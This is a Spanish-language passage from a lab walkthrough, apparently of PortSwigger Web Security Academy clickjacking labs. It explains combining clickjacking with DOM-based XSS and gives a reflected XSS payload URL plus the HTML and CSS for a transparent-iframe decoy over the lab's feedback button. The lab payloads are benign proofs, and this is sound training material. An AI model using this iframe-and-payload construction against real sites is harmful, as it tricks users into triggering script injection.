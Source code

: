 Observemos que hemos incorporado un atributo nuevo; **sandbox** que nos permite romper la defensa del laboratorio que le protege de los marcos.

Así, copiamos el código dentro del servidor del exploit y le damos a view exploit viendo que ha funcionado:

<div style="text-align:center">
	<img src="{{ 'assets/img/Burp/Pasted image 20220504182051.png' | relative_url }}" text-align="center"/>
</div>

Sólo queda darle a "Deliver to víctim".

<br />

#### 2.5. Combinación de clickjacking com DOM XSS attack.

Hasta ahora, hemos considerado el Clickjacking como un ataque autocontenido. Históricamente se ha utilizado para realizar comportamientos como aumentar los "me gusta" en una página de Facebook. 

Sin embargo, **la verdadera potencia del clickjacking se revela cuando se utiliza como portador de otro ataque, como un ataque DOM XSS**. La implementación de este ataque combinado es relativamente sencilla, suponiendo que el atacante haya identificado primero el exploit XSS. El exploit XSS luego se combina con la URL de destino del iframe para que el usuario haga clic en el botón o enlace y, en consecuencia, ejecute el ataque DOM XSS. Ya hemos hecho algo parecido en laboratorios anteriores incluyendo el valor del email a cambiar en la URL del ataque.

<br />

**Laboratorio 4: Exploiting clickjacking vulnerabilitty to trigger DOM-based XSS**

Este laboratorio contiene una vulnerabilidad XSS que se desencadena mediante un click. Debemos construir un ataque de clickjacking que induce al usuario a presionar el botón que desencadena el exploit XSS.

En primer lugar, acudimos a la funcionalidad "Submit feedback" y observamos que el valor del parámetro "name" se refleja en la respuesta después de emitir el feedback y que además es vulnerable a inyección de HTML:

<div style="text-align:center">
	<img src="{{ 'assets/img/Burp/Pasted image 20220521183404.png' | relative_url }}" text-align="center"/>
</div>

Así, empleamos la siguiente URL: https://ac081fcd1eec468ac0030a7000d80038.web-security-academy.net/feedback?name=%3Cimg+src=1+onerror=alert(1)%3E&email=a@a&subject=a&message=a que ya tiene rellenados los campos adecuados incluyéndo el payload en el campo de inyección HTML y construimos un iframe para que se construya un señuelo sobre el botón "Submit Feedback".

Así, plantamos en el exploit del servidor:

```HTML
<style>
iframe {
position:relative;
width:1000;
height: 1000;
opacity: 0.1;
z-index: 2;
}
div {
position:absolute;
top:830;
left:90;
z-index: 1;
}
</style>
<div>Click me</div>
<iframe src="https://ac081fcd1eec468ac0030a7000d80038.web-security-academy.net/feedback?name=%3Cimg+src=1+onerror=print()%3E&email=a@a&subject=a&message=a"></iframe>
```

